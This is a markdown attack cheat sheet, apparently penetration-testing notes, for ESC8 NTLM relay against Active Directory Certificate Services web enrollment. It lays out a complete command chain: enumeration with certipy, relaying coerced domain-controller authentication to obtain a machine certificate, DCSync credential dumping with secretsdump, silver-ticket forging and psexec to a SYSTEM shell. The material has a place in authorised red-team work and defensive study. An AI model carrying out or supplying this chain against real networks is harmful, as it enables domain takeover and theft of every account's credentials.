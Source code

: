 # ESC8—NTLM Relay to AD CS HTTP Endpoints

## Theory

> [!Overview] Title
> ESC8 abuses **NTLM relay** to AD CS **HTTP web enrollment endpoints** (e.g., `http://<ADCS_HOST_FQDN>/certsrv/certfnsh.asp`). If HTTP enrollment is enabled and a template that allows **machine enrollment** with **Client Authentication** EKU is published (e.g., `Machine`/`Computer`, or `DomainController`), an attacker who coerces NTLM auth from a domain computer can relay it to the CA and obtain a certificate that **authenticates as that computer/user**. From a computer account cert (esp. a DC), the attacker can perform **DCSync** or forge **silver tickets** to gain high privileges.

## Requirements

* **Web Enrollment** endpoint enabled on AD CS (HTTP/S).
* **Template** published that allows **domain computer enrollment** and **Client Authentication** (e.g., `Machine`/`Computer`; for DCs: `DomainController`).
* Ability to **coerce/capture NTLM** from a target machine (e.g., PrinterBug, PetitPotam, Coercer).
* Network access from attacker to **ADCS HTTP endpoint** and to target for coercion.

### Placeholders

`<DOMAIN>` `<FOREST_DN>` `<DC_HOSTNAME>` `<DC_FQDN>` `<DC_IP>` `<ADCS_HOSTNAME>` `<ADCS_HOST_FQDN>` `<ADCS_IP>` `<CA_NAME>` `<TEMPLATE_NAME>` `<USER>` `<PASS>` `<ATTACK_BOX_USER>` `<ATTACK_BOX_PASS>` `<ATTACK_BOX_IP>` `<LISTEN_IP>` `<RELAY_TEMPLATE>` `<PFX_FILE>` `<CCACHE_FILE>` `<NTHASH>` `<DOMAIN_SID>` `<SPN>`

---

## Linux

### (Optional) SSH SOCKS Proxy

```bash
sshpass -p '<ATTACK_BOX_PASS>' ssh -N -f -D 127.0.0.1:9050 <ATTACK_BOX_USER>@<ATTACK_BOX_IP>
# If sshpass is missing, omit it and enter the password interactively.
```

#### Proxychains4 snippet

```bash
# /etc/proxychains.conf
#proxy_dns
[ProxyList]
socks4  127.0.0.1 9050
```

### Network Enumeration

```bash
nmap -sn <SUBNET_CIDR>
# Identify <DC_IP>, <ADCS_IP>, etc.

nmap <DC_IP>,<ADCS_IP> -sC -sV -oN nmapscan.txt
# Confirm HTTP/HTTPS on <ADCS_IP>, NTLM enabled, IIS version, etc.
```

### Enumerate AD CS with Certipy

```bash
certipy find -u '<USER>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Look for: Web Enrollment: Enabled; Request Disposition: Issue (ESC8)
# Templates: Machine/Computer or DomainController available for enrollment
```

---

## ESC8 Abuse (Linux)

### Step 1 — Start NTLM Relay to AD CS HTTP Endpoint

> Choose `<RELAY_TEMPLATE>` as `DomainController` when coercing a DC; otherwise `Machine`/`Computer` for workstations/servers.

```bash
sudo certipy relay -target <ADCS_IP> -template <RELAY_TEMPLATE>
# Targets http://<ADCS_IP>/certsrv/certfnsh.asp (ESC8) and listens on 0.0.0.0:445
```

### Step 2 — Coerce Authentication from Target

> Use any coercion vector (Coercer, PetitPotam, PrinterBug, etc.). Example with **Coercer**:

```bash
coercer coerce -l <LISTEN_IP> -t <DC_IP> -u '<USER>' -p '<PASS>' -d <DOMAIN> -v
# When prompted: Continue (C) | Skip (S) | Stop (X) -> choose C until a hit, then X
```

### Step 3 — Receive and Save Relayed Certificate

> In the `certipy relay` console you should see something like `<DOMAIN>\\<DC_HOSTNAME>$` and a PFX written.

```text
[*] Requesting certificate for '<DOMAIN>\\<DC_HOSTNAME>$' based on template '<RELAY_TEMPLATE>'
[*] Certificate has no object SID
[*] Saved certificate and private key to '<PFX_FILE>'
```

### Step 4 — Authenticate with the Issued Certificate

```bash
certipy auth -pfx '<PFX_FILE>'
# => writes Kerberos ccache (e.g., '<CCACHE_FILE>') and may print NT hash for the account
```

---

## Post-Exploitation Paths

### A) DCSync (preferred when cert is for a DC)

Using the **TGT/ccache**:

```bash
KRB5CCNAME=<CCACHE_FILE> secretsdump.py -k -no-pass <DC_FQDN>
# Dumps NTDS.DIT secrets, including <DOMAIN>\\Administrator NT hash
```

Using the **NT hash** directly:

```bash
secretsdump.py '<DC_HOSTNAME>$'@<DC_FQDN> -hashes :<NTHASH>
```

### B) Silver Ticket (when cert/hash is for a non-DC machine)

1. Get **Domain SID**:

```bash
lookupsid.py '<MACHINE_ACCOUNT>$'@<DC_IP> -hashes :<NTHASH>
# Domain SID: <DOMAIN_SID>
```

2. Forge **Silver Ticket** for a service (e.g., CIFS):

```bash
ticketer.py -nthash <NTHASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn cifs/<DC_FQDN> Administrator
# Saves Administrator.ccache
```

3. Use **Pass-the-Ticket** (example with PsExec):

```bash
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass <DC_FQDN>
# Expect a SYSTEM shell on <DC_HOSTNAME>
```

---

## Notes & Troubleshooting

* If `certipy find` can’t enumerate templates via CSRA, try RRP (certipy does this automatically). You only need Web Enrollment **enabled** + a suitable template.
* If `certipy relay` times out, ensure port 445 from target to attacker is reachable and that your coercion actually triggers NTLM to your listener.
* Some hosts harden coercion paths; try multiple vectors or different machines.
* For non-DC machines, use the `Machine`/`Computer` template and pick an SPN relevant to your target when forging silver tickets (e.g., `cifs/<HOST_FQDN>`, `host/<HOST_FQDN>`).
* Ensure DNS/hosts resolution when using Kerberos (`/etc/hosts` or proper DNS).
